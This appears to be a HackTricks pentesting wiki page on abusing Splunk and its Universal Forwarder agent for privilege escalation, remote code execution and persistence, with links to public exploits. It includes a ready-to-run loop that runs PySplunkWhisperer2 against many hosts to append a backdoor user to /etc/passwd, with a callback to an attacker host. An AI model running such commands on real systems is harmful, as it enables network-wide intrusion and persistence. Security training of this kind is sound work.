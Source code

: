 # Splunk LPE and Persistence

{{#include ../../banners/hacktricks-training.md}}

If **enumerating** a machine **internally** or **externally** you find **Splunk running** (port 8090), if you luckily know any **valid credentials** you can **abuse the Splunk service** to **execute a shell** as the user running Splunk. If root is running it, you can escalate privileges to root.

Also if you are **already root and the Splunk service is not listening only on localhost**, you can **steal** the **password** file **from** the Splunk service and **crack** the passwords, or **add new** credentials to it. And maintain persistence on the host.

In the first image below you can see how a Splunkd web page looks like.

## Splunk Universal Forwarder Agent Exploit Summary

For further details check the post [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). This is just a sumary:

**Exploit Overview:**
An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.

**Key Points:**

- The UF agent does not validate incoming connections or the authenticity of code, making it vulnerable to unauthorized code execution.
- Common password acquisition methods include locating them in network directories, file shares, or internal documentation.
- Successful exploitation can lead to SYSTEM or root level access on compromised hosts, data exfiltration, and further network infiltration.

**Exploit Execution:**

1. Attacker obtains the UF agent password.
2. Utilizes the Splunk API to send commands or scripts to the agents.
3. Possible actions include file extraction, user account manipulation, and system compromise.

**Impact:**

- Full network compromise with SYSTEM/root level permissions on each host.
- Potential for disabling logging to evade detection.
- Installation of backdoors or ransomware.

**Example Command for Exploitation:**

```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```

**Usable public exploits:**

- https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
- https://www.exploit-db.com/exploits/46238
- https://www.exploit-db.com/exploits/46487

## Abusing Splunk Queries

**For further details check the post [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{{#include ../../banners/hacktricks-training.md}}
